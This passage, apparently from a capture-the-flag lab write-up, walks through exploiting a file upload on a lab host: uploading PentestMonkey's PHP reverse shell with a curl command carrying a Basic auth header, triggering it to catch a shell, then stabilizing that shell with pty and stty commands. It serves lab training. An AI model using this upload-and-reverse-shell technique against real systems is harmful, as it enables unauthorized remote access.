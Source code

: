
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250401162859.png)



Since we can upload files, let's upload a reverse shell, we can use the one at `PentestMonkey` github

Link: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


Save the file and do the following:

```
curl -F "file=@thm_shell.php" -F "plupload=1" -F "name=thm_shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -H "Authorization: Basic ZGV2ZWxvcGVyczo5OTcyNzYxZHJtZnNscw=="
```

We get this response:

```
{"success":"yes","file_name":"17436166695449b9","extension":"php","file_directory":"2025\/04\/02"}
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402125929.png)

We can now visit the following URL:

```
http://broadcast.vulnnet.thm/files/photos/
```

We notice this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402130005.png)

There's a directory, if we follow it, we get to this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402130032.png)


This is our reverse shell, let's set up our listener and get the connection:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250402130104.png)

Let's proceed to privilege escalation.


# PRIVILEGE ESCALATION
---


Since we got our shell, let's stabilize it:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```
